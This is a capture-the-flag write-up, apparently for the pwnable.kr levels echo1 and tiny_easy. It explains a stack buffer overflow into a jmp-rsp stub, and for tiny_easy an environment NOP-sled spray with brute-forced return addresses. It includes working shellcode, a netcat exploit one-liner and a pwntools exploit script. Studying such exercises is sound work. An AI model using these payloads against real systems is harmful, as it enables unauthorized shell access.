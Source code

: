 
 # LEVEL - echo1
 
 in tis level we get an executebel file we run it true ida and we get sit code:
 ```
 int __cdecl main(int argc, const char **argv, const char **envp)
{
  _QWORD *v3; // rax
  unsigned int i; // [rsp+Ch] [rbp-24h] BYREF
  int v6[4]; // [rsp+10h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 1, 0LL);
  o = malloc(0x28uLL);
  *((_QWORD *)o + 3) = greetings;
  *((_QWORD *)o + 4) = byebye;
  printf("hey, what's your name? : ");
  __isoc99_scanf("%24s", v6);
  v3 = o;
  *(_QWORD *)o = v6[0];
  v3[1] = v6[1];
  v3[2] = v6[2];
  id = v6[0];
  getchar();
  func[0] = (__int64)echo1;
  qword_602088 = (__int64)echo2;
  qword_602090 = (__int64)echo3;
  for ( i = 0; i != 'y'; i = getchar() )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("\n- select echo type -");
        puts("- 1. : BOF echo");
        puts("- 2. : FSB echo");
        puts("- 3. : UAF echo");
        puts("- 4. : exit");
        printf("> ");
        __isoc99_scanf("%d", &i);
        getchar();
        if ( i > 3 )
          break;
        ((void (*)(void))func[i - 1])();
      }
      if ( i == 4 )
        break;
      puts("invalid menu");
    }
    cleanup();
    printf("Are you sure you want to exit? (y/n)");
  }
  puts("bye");
  return 0;
}
```
so if we go to the function echo1:
```
__int64 echo1()
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  (*((void (__fastcall **)(void *))o + 3))(o);
  get_input(s, 128LL);
  puts(s);
  (*((void (__fastcall **)(void *))o + 4))(o);
  return 0LL;
}
```
get_input is just f_gets so we see that we can buffer overflow here becuse we can write 128 cherecters into a string of size 32 
so we think a bout changing the ret pointer so we look at the addres of s and the ret pointer and we get that the string s is 
40 bytes away of the ret pointer so we can overflow him so now we checksec the file (checksec --file=echo1) we see that NX is off 
so we can execute code from the stack know we will gwt our attention on the id verbel in the main function we see that 
```
id = v6[0]
```
v6 is a array of int so every slot in the array worth 4 bytes so we put in id 4 chars becuse one char is worth 1 byte becuse the PIE is also off we now that the global verebels dont change adresses so we can write ashellcode to the id and then with the buffer overflow return to id and execuse the id because we have only 4 chars we cant write bin/sh shell code so what we will do is use the sp register we know that
the sp register at the buffer overflow will hold the ret pointer with is the id addres and then after the ret of the function will incress by 8 bytes so what we can do is to put a shell code of jmp RSP in id and we will jump to the shell code.
is get after the firest 8 byets after the bufeer overflow we can in sert a bin/sh shell code and then we will get the flag
the adress of id is 0x6020a0 and the shell code is \x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05
so we will execute:
(python2 -c "print('\xff\xe4\x00\x00\n' +'1\n' + 'a'*40 +'\xa0\x20\x60\x00\x00\x00\x00\x00\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x31\xc0\x99\x31\xf6\x54\x5f\xb0\x3b\x0f\x05\n')"; cat) | nc pwnable.kr 9010

eli :)



 # LEVEL - tiny_easy
 when we debug the file we can run it becuse the file is too small so we use start i in gdb and we get the asm of he program 
```
0x8048054    pop    eax
0x8048055    pop    edx
0x8048056    mov    edx, dword ptr [edx]
0x8048058    call   edx
```

we know that in the _start the firest verbels that get saved are argc argv and env that we pass to the program so we get that the call edx will call the argv[0] so we use pwntools python functions 
the functuon process let us run the program with argv and env that we want so we know we can write to the stack with the virubels of argv and we all argv[0] so we will insert as much as we can shell code to the stack and pick some pocebule adress in the stack and try alot of times until we fall on a place with a shell code of bin/sh  to have more chance to fall on the start of the shellcode we use the nop instaraction to make the code skip until the shell code 
this is the code i made:
```
from pwn import *

shellcode = '\x6A\x68\x68\x2F\x2F\x2F\x73\x68\x2F\x62\x69\x6E\x89\xE3\x68\x01\x01\x01\x01\x81\x34\x24\x72\x69\x01\x01\x31\xC9\x51\x6A\x04\x59\x01\xE1\x51\x89\xE1\x31\xD2\x6A\x0B\x58\xCD\x80'

envir = {'a':'1'}
for i in range(1,100):
    envir[str(i)] = '\x90'*12000+shellcode


while(True):

    r = process(argv=['\x11\x11\x88\xff'],executable = '/home/tiny_easy/./tiny_easy',env = envir)
    r.sendline("id")
    try:
        r.recvline()
    except EOFError:
        r.wait()
        continue
    r.interactive()
    break

```




